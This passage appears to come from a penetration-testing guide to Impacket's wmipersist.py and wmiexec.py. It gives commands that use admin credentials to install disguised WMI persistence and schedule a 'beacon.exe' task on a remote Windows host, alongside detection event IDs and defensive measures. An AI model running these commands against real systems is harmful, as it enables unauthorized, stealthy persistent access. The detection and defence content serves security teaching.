 ### Stealth Persistence with Cleanup
```bash
# Step 1: Install low-profile persistence
python3 wmipersist.py -action install -name "SecurityCenter" -command "schtasks /create /tn Updates /tr beacon.exe /sc minute /mo 60" -trigger-interval 86400 domain/user:pass@target

# Step 2: Test persistence trigger manually
python3 wmiexec.py domain/user:pass@target "cmd /c schtasks /query /tn Updates"
```

## Prerequisites
- Administrative credentials on target system
- Network access to target on WMI ports (135, random high ports)
- Python 3.x with Impacket library installed
- VBScript file for persistence payload
- Windows target system (WMI not available on Linux/Unix)

## Detection Considerations
- **Event IDs**: 
  - Event ID 19-21 (WMI Event Consumer activity)
  - Event ID 5857-5861 (WMI Activity)
  - Event ID 4624/4625 (Authentication events)
- **Network Indicators**: 
  - Connections to port 135 (RPC endpoint mapper)
  - WMI DCOM traffic on random high ports
  - Persistent network connections
- **Process Indicators**: 
  - WMI provider processes (wmiprvse.exe)
  - VBScript/PowerShell execution triggered by events
  - Suspicious ActiveScriptEventConsumer processes
- **File Indicators**: 
  - VBScript files in unusual locations
  - Payload files dropped by persistence mechanism
- **Registry Indicators**: 
  - WMI subscription entries in WMI repository
  - Event consumer registrations

## Defensive Measures
- Monitor WMI event consumer creation and modifications
- Enable WMI Activity logging (Event IDs 5857-5861)
- Implement application whitelisting to prevent unauthorized scripts
- Use WMI event log monitoring and alerting
- Regular auditing of WMI subscriptions and consumers
- Network segmentation to limit WMI access

## Common Issues and Troubleshooting

### WMI Access Denied Errors
```bash
# Problem: Insufficient privileges for WMI operations
# Solution: Ensure account has administrative privileges
# Verify account is in local Administrators group or equivalent
python3 wmipersist.py domain/admin:pass@target install -name test -vbs payload.vbs
```
